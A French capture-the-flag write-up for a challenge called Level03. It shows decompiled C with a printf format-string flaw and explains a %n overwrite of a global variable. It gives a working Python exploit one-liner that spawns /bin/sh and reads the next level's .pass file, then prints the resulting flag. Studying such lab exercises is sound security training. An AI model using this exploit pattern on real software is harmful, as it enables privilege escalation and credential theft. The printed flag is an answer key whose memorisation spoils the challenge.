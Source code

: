 # Rapport CTF - [Level03]

### Observation :
En arrivant sur le level3 on trouve un executable nommé level3.\
Quand nous essayons de le lancer avec un argument le programme nous renvois juste notre propre chaine de caractere puis se ferme, comme sur le level precedant. \
Regardons donc avec gdb ou un decompilateur.


### Explication de Code :
En lancant le binaire dans hex-ray ou ghidra nous obtenons :
```c
int v()
{
  int result; // eax
  char s[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(s, 512, stdin);
  printf(s);
  result = m;
  if ( m == 64 )
  {
    fwrite("Wait what?!\n", 1u, 0xCu, stdout);
    return system("/bin/sh");
  }
  return result;
}
// 804988C: using guessed type int m;

//----- (0804851A) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  return v();
}
```
Nous avons une fonction `v()` qui sous la condition `m == 64` peux nous donner un `/bin/sh`. \
Nous avon aussi un `printf(s)` qui vas lire tout ce que contient `s`, donc notre `stdin`. \
Nous pouvons injecter des valeurs avec la fonction `%n` de printf qui ecrit le nombre d'octets precedement ecrit par printf. 

### Solution :
Il nous faut donc ecrire 64 octets dans printf, que nous allons injecter dans la variable gllobal `m`.
Pour se faire il nous faut ecrire l'adresse de la global `m`, ainsi que 3 adresses de 8 octects chaqu'une pour pouvoir bien placer notre adresse de `m` dans la memoire.
Par la suite on peux ecrire des octets random jusqu'a atteindres 64 caracteres ecrit par printf et mettre un `%n` pour pouvoir injecter la valeur `64` dans `m`.

On fait la commande suivante pour obtenir le flag :
```sh
(python -c "print ('\x08\x04\x98\x8c'[::-1] + '%8.x'*3 + 'A'*(64 - (8*3) - 4) + '%n')"; echo "cat /home/user/level4/.pass") | ./level3
```

### Resultat :
```sh
�     200b7fd1ac0b7ff37d0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
